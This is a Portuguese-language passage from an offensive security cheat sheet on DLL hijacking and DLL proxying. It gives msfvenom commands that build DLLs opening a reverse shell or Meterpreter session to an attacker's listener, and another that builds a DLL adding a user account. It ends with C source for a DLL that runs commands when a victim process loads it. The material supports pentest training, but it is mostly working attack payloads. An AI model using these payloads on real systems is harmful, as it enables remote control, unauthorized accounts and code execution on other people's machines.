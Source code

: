 ## **Criando e compilando Dlls**

### **Dll Proxifying**

Basicamente, um **Dll proxy** é um Dll capaz de **executar seu código malicioso quando carregado**, mas também de **expor** e **funcionar** como **esperado** ao **revezar todas as chamadas para a biblioteca real**.

Com a ferramenta [**DLLirant**](https://github.com/redteamsocietegenerale/DLLirant) ou [**Spartacus**](https://github.com/Accenture/Spartacus), você pode realmente **indicar um executável e selecionar a biblioteca** que deseja proxificar e **gerar um dll proxificado** ou **indicar o Dll** e **gerar um dll proxificado**.

### **Meterpreter**

**Get rev shell (x64):**
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
**Obtenha um meterpreter (x86):**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
**Criar um usuário (x86, não vi uma versão x64):**
```
msfvenom -p windows/adduser USER=privesc PASS=Attacker@123 -f dll -o msf.dll
```
### Seu próprio

Note que em vários casos o Dll que você compila deve **exportar várias funções** que serão carregadas pelo processo da vítima; se essas funções não existirem, o **binário não conseguirá carregá-las** e o **exploit falhará**.
```c
// Tested in Win10
// i686-w64-mingw32-g++ dll.c -lws2_32 -o srrstr.dll -shared
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
switch(dwReason){
case DLL_PROCESS_ATTACH:
system("whoami > C:\\users\\username\\whoami.txt");
WinExec("calc.exe", 0); //This doesn't accept redirections like system
break;
case DLL_PROCESS_DETACH:
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
}
return TRUE;
}
```
